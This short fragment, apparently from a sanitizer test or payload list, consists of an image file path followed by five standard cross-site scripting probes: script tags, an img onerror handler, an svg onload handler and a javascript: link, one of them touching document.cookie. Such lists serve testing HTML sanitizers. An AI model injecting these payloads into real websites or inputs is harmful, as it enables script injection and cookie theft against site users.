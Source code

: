 <script>alert(1)</script>
<script>document.cookie</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href=javascript:alert(1)>